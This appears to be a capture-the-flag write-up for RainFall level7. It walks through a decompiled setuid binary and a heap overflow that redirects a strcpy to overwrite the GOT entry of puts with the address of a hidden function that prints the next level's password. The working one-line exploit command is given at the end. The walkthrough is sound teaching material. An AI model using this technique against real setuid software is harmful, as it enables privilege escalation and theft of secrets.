

# Level7

## Context & Explanation
 * There is one file in our home, ```level7```, belonging to ```level8``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

 * We run the program with gdb and we observe that:
 	* In the `main()` 
		* There is 4 calls to `malloc()`:
			* 
			1. The 1st one holds value `0x1`, and the address of the 2nd malloc
			2. The 2nd one is left empty
			3. The 3rd one holds value `0x2`, and the address of the 4th malloc
			4. The 4th one is left empty
		* We got then got 2 calls to `strcpy()`
			1. One with `av[1]` as source and the adress of the 2nd malloc which is written in the 1st malloc `malloc_one[1]`
			1. One with `av[2]` as source and the adress of the 4th malloc which is written in the 3rd malloc `malloc_three[1]`
		* The the program calls `fopen()` on `/home/user/level8/.pass`
		* The program calls `fgets()` on this file and save the content in the global `c`
		* And finnaly a call to `puts()` with `"~~"` as argument.
	* The 2nd interesting function, which is never called `m()`
		* There is a call to `printf()` which display time and the content of the global `c` (the same that is filled by `fgets()` with the flag needed to access the next level)

## Exploited vulnerability

We will use a Buffer-Overflow attack on the 1st `strcpy()` to change the destination of the 2nd.
We will then change the DYNAMIC RELOCATION RECORD of `puts` so instead of calling the libc function, it will call the wanted `m()` function

For doing so we need 2 adresses, the one from Dynamic Relocation Record of `puts`
```sh
level7@RainFall:~$ objdump --dynamic-reloc level7

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen

```

And the adress of the `m()` function

```sh
level7@RainFall:~$ objdump -D  level7 | grep '<m>'
080484f4 <m>:
```

The last detail to think of is to reverse the adresses and check at which offset we need to write from the 1st malloc to access the 3rd one.

In gdb we can take care of looking the offset, thanks to the 0x2 value written at the begining of the 3rd malloc:

```
gdb-peda$ x/20x 0x0804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
```
And we see that we will need to skip 20 octets from the starting adress of the 1st `strcpy()`.


## Resolution

```
./level7 `python -c "print('a' * 20 + '28990408'.decode('hex'))"` `python -c "print('f4840408'.decode('hex'))"`
```
